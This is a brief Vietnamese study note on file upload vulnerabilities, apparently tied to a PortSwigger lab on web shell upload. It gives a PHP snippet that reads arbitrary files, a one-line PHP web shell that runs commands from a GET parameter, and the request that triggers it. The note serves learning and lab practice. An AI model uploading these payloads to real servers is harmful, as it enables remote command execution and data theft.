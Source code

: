 trường hợp được upload file tùy ý:
- upload file php với nội dung sau, để lấy nội dung file khác:
```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```
- hoặc để thực thi lệnh bất kỳ:
```php
<?php echo system($_GET['command']); ?>
```
kết hợp với GET request:
```http
GET /example/exploit.php?command=id HTTP/1.1
```

ExLab: [1. Remote code execution via web shell upload](../../../../learn/portswigger/Web%20Security%20Academy/File%20upload%20vulnerabilities/lab/apprentice/1.%20Remote%20code%20execution%20via%20web%20shell%20upload.md)